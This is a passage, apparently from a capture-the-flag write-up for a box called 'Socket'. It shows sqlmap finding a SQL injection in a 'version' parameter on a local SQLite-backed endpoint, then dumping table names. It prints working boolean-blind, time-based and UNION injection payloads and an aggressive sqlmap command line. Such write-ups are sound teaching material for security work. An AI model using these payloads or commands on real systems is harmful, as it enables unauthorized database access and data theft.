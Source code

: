 ```bash
[18:13:51] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:13:51] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:13:52] [INFO] target URL appears to have 4 columns in query
[18:13:52] [INFO] GET parameter 'version' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
[18:13:52] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
GET parameter 'version' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 269 HTTP(s) requests:
---
Parameter: version (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: version=1" OR NOT 1580=1580-- YmGV

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: version=1" OR 7721=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- ZzYl

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: version=1" UNION ALL SELECT NULL,NULL,NULL,CHAR(113,118,112,118,113)||CHAR(107,97,84,115,108,113,76,108,90,70,65,80,77,77,88,122,88,98,76,103,115,108,76,74,97,100,76,122,84,78,119,77,121,102,74,116,89,69,111,106)||CHAR(113,112,120,118,113)-- zLii
---
[18:13:52] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[18:13:52] [WARNING] on SQLite it is not possible to enumerate databases (use only '--tables')
[18:13:52] [INFO] fetched data logged to text files under '/home/nickvd/.local/share/sqlmap/output/localhost'

```

The datastore is SQLite, and the current endpoint is vulnerable to a `UNION` injection with 4 columns. Given it’s SQLite it doesn’t have a concept of databases, so I can immediately try to dump all tables.

```bash
┌──(nickvd㉿kali)-[~/Boxes/Socket]
└─$ sqlmap -u 'http://localhost:8081?version=1' --batch --tables --level 5 --risk 3
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.7#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

<...snip...>
[18:18:22] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[18:18:22] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[6 tables]
+-----------------+
| answers         |
| info            |
```